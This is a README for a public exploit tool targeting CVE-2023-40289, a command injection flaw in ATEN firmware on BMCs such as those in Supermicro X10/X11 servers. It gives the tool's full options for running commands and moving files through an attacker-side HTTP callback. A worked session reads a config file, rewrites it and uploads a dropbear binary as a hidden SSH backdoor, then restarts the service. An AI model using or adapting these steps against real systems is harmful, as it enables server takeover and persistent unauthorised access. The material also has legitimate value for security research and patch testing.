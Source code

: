 CVE-2023-40289
==============

This is an exploit for [CVE-2023-40289](https://www.cve.org/CVERecord?id=CVE-2023-40289), a command injection vulnerability in several Baseband Management Controllers (BMC) by with firmware by [ATEN](https://www.aten.com/).
Examples of affected devices include [Aspeed's](https://www.aspeedtech.com/) AST2300 or AST2500, which can be found on [Supermicro's](https://www.supermicro.com/) X10 and X11 series server systems, among others.

The vulnerability was originally found by [Binarly](https://binarly.io/).
This repository merely expands their [PoC](https://binarly.io/advisories/BRLY-2023-001/) to make it more user-friendly.

Use only for educational purposes and with the consent of all involved parties.

Usage
=====

```
Usage: CVE-2023-40289 [OPTIONS] COMMAND [ARGS]...

  Exploit CVE-2023-40289 on BMCs with ATEN firmware.

  /!\ Caution! This script will overwrite alerts without prompting! /!\

Options:
  --target TEXT        URL of the target BMC's web UI.  [required]
  -h, --lhost TEXT     IP address or host name of this system to get payload
                       output. Limited to ~35 characters.
  -l, --lport INTEGER  Local port to run an HTTP server on to get payload
                       output.  [default: 80]
  -s, --sid TEXT       A valid session ID for an administrative user on the
                       target system.
  -u, --username TEXT  The name of an administrative user to log in as.
                       Ignored if --sid is given.
  -p, --password TEXT  The password of the given user.
  --delay FLOAT        Delay between running a command and retrieving its
                       output.  [default: 1.5]
  --help               Show this message and exit.

Commands:
  get  Get FILE from the target BMC and save it locally.
  put  Write local FILE to the BMC at DEST.
  run  Run the PAYLOAD command on the target BMC.

  Note: All options may also be given as environment variables with the prefix
  'BMC_' (e.g. BMC_TARGET).
```

Example
-------

```console
$ export BMC_TARGET=192.168.0.8
$ export BMC_USERNAME=admin
$ export BMC_PASSWORD=hunter2
$ export BMC_LHOST=192.168.0.7
$ CVE-2023-40289 get /nv/service.conf
[.] Triggering upload of /nv/service.conf from BMC.
[✓] File contents written to nv/service.conf.
$ cat nv/service.conf
HTTP_SERVICE=0
HTTP_PORT=80
HTTPS_SERVICE=1
HTTPS_PORT=443
SSH_SERVICE=1
SSH_PORT=22
WSMAN_SERVICE=0
WSMAN_PORT=5985
IKVM_SERVICE=1
VM_SERVICE=0
SSL_REDIRECT=1
SNMP_SERVICE=0
SNMP_PORT=161
STUNNEL_SERVICE=1
STUNNEL_PORT=5900
$ echo SSH_EXE=/nv/hackbear >> nv/service.conf
$ CVE-2023-40289 put service.conf /nv/service.conf
[✓] Set download payloads
[✓] Downloaded service.conf to BMC.
[✓] Moved downloaded file to /nv/service.conf on BMC.
$ CVE-2023-40289 put dropbear-arm /nv/hackbear
[✓] Set download payloads
[✓] Downloaded dropbear-arm to BMC.
[✓] Set file mode.
[✓] Moved downloaded file to /nv/hackbear on BMC.
$ CVE-2023-40289 run /etc/init.d/smashd restart
[✓] Set payload command
[✓] Triggered payload command
[.] Getting command output
Verify the ssh key-/nv/dropbear/dropbear_rsa_host_key. Please wait.
Verify the ssh key-/nv/dropbear/dropbear_dss_host_key. Please wait.
Starting SMASH daemon .....
```

Requirements
============

This script needs:
* [Python 3](https://www.python.org/)
* [click](https://click.palletsprojects.com/)
* [requests](https://requests.readthedocs.io/)

License
=======

MIT
